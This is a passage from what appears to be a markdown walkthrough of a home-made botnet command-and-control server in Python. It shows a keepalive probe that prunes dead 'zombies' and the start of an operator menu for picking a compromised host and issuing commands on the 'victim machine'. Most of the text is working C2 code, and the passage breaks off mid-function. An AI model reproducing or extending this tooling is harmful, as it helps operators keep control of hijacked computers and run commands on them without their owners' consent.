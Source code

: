 ***Keepalive probe to determine if zombies are (un)dead or alive***
-

> setup a probe 👽 to ensure agents are still alive or dead (hey mom there's something in the backroom.  Hope it's not the creature from above...)

```python
def probe():
    while True:
        global counter
        global clientlist
        global clientdata

        ############################################################
        # are any not alive anymore?  do a keep-alive probe to see...
        ############################################################
        try:
            d = 0
            for c in range(len(clientlist)):
                clientlist[c][1].send(b"?keepalive?\n")
                d = d + 1
        except:
            print(Fore.YELLOW + "\nThis Zombie died:\n************************\n" + Fore.WHITE, counter, "--> ", clientdata[d], "\n************************\n")
            clientlist.pop(d)
            clientdata.pop(d)
            counter = counter - 1
            print(Fore.GREEN + "[+] removed \"dead\" zombie ;) " + Fore.WHITE)
        time.sleep(4)
```

***Interact with your Zombies dude!!! 🧟‍♀️***
-

> This section is the biggest but most essential.  We interact with our zombies and issue commands to be executed on the victim machine!

I apologize for not going into detail on the code.  If you have questions, feel free to ask me.  I'm on twitter and discord, etc.  Happy to explain further.

```python
def zombies():
    global counter
    global clientlist
    global clientdata
    selection=""

    if (len(clientlist)) <= 0:
        print(Fore.RED + "[!] no zombies yet..." + Fore.WHITE)
        return

    print(Fore.GREEN + "Zombies: ", len(clientlist), Fore.WHITE)

    temp=0
    for b in clientdata:
        print("Zombie: ", temp, "-->", b)
        temp+=1
    print(Fore.GREEN + "\nPick a zombie to interact with!\n" + Fore.WHITE)
    try:
        selection=int(input(' <enter the client #> $ '))
    except:
        print(Fore.RED + "[!] enter client number..." + Fore.WHITE)
        time.sleep(2)
        return

    while True:
        if os.name == 'nt':
```